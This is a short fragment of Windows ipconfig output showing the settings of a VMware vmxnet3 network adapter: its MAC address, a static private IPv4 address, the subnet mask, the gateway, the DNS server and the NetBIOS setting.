   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter #2
   Physical Address. . . . . . . . . : 00-50-56-BF-6E-45
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   IPv4 Address. . . . . . . . . . . : 192.168.197.10(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.197.254
   DNS Servers . . . . . . . . . . . : 192.168.197.254
   NetBIOS over Tcpip. . . . . . . . : Enabled
```
